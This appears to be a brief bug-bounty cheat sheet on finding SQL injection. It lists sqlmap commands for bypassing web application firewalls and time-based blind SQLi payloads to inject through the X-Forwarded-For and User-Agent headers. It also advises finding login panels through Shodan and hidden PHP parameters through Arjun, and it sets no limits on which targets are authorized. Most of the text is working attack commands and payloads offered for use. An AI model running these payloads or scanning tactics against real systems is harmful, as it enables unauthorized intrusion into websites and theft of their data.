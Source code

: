 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

# Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname

# sql injcetion tip

Application was using php ( whenever I see php , I test sqli first ) 
I tried blind sqli payload in login params  - not worked
sprayed in user-agent - worked✅

User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR"
===> 5.xx seconds delay


# sql injection tip

u can hunt post based param when if the URL has POST /hello/string/testing.php HTTP/1.1
